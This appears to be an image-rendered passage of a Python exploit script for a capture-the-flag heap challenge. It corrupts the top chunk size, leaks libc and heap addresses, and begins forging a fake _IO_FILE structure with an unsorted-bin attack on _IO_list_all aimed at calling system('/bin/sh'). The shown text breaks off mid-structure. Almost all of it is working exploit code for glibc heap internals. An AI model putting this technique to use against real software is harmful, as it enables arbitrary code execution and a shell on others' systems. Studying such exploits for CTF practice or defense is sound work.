```python
	
	ad(0x10, 'A' * 0x10)
	p = 'A' * 0x10
	p += p64(0) + p64(0x21)
	p += p64(0x1f00000010)
	p += p64(0)
	p += p64(0)
	p += p64(0x00fa1)
	# top chunk size 0x20fa1
	# top chunk addr 0x555555758060
	# alignment: 555555779001 -> 0x1000
	li('addr: ' + hex(0xfa1 + 0x1000))
	md(0x80, p)

	ad(0x1000, 'B' * 0x10)

	# leak libc base with overflow
	ad(0x400, 'C' * 0x8)

	dp()
	lib.address = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - main_arena - 1640
	li('libc_base ' + hex(lib.address))

	# leak heap addr with large bin
	md(0x10, 'C' * 0x10)
	dp()
	ru('CCCCCCCCCCCCCCCC')
	heap = u64(ru('\x0a').ljust(8, '\x00')) - 0xc0
	li('heap ' + hex(heap))

	_IO_list_all = lib.sym['_IO_list_all']
	li('_IO_list_all ' + hex(_IO_list_all))

	# Control program
	p = 'B' * 0x400
	p += p64(0)
	p += p64(0x21)
	p += 'B' * 0x10

	# fake file
	f = '/bin/sh\x00' # flag overflow arg -> system('/bin/sh')
	f += p64(0x61)    # _IO_read_ptr small bin size
	#  unsoted bin attack
	f += p64(0) # _IO_read_end)
	f += p64(_IO_list_all - 0x10)  # _IO_read_base

	#bypass check
	# fp->_IO_write_base < fp->_IO_write_ptr

	# fp->mode <=0 ((addr + 0xc8) <= 0)
	f += p64(0) # _IO_write_base 
	f += p64(1) # _IO_write_ptr

	f += p64(0) # _IO_write_end
	f += p64(0) # _IO_buf_base
	f += p64(0) # _IO_buf_end
	f += p64(0) # _IO_save_base
	f += p64(0) # _IO_backup_base
	f += p64(0) # _IO_save_end
	f += p64(0) # *_markers
	f += p64(0) # *_chain

	f += p32(0) # _fileno
```